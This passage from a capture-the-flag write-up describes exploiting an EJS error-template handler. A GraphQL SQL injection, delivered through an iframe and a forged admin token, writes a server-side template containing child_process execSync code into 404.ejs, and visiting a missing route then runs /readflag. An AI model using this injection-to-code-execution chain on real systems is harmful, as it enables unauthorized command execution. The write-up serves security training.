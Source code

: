 This looks promising. The function is dynamically fetching error templates that match the raised status code, e.g. if a `400` error occurs, `app/views/errors/400.ejs` will be rendered in the browser via `res.render()`. 

Looking at the existing error message templates shows the following: 

![image](../images/htb-ctf-2024/error-files.png)
*Existing error EJS templates*

There are templates for `400.ejs`, `401.ejs` and `500.ejs` - but no `404.ejs` (404 Not Found) template. 404 errors are easy enough to trigger in browser, so let's attempt to write a file again using our SQL injection payload - this time to `app/views/errors/404.ejs`.

```json
{
    "url" :"localhost:1337/<iframe src='http://localhost:1337/graphql?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3MTYyMTE4NDd9.Pk8ZBsRnCz82MIJhLuAfWJ6H0k4x2DaVlvY18dkCxYc&query=%7B%0A%20%20getDataByName(name%3A%22john%5C%5Cn%27UNION%20SELECT%201%2C1%2C1%2C%20%27%3C%25%3D%20global.process.mainModule.require(%60child_process%60).execSync(%60%2Freadflag%60).toString()%20%25%3E%27%20INTO%20OUTFILE%20%27%2Fapp%2Fviews%2Ferrors%2F404.ejs%27--%20%22)%20%7B%0A%20%20%20%20id%0A%20%20%20%20name%0A%20%20%7D%0A%7D' height='2000' width='1000'></iframe>"
}
```

Next, we visit a non-existant route (e.g. `/blah`) to trigger a 404 error:

![image](../images/htb-ctf-2024/flag.png)
*/readflag executed and flag rendered*
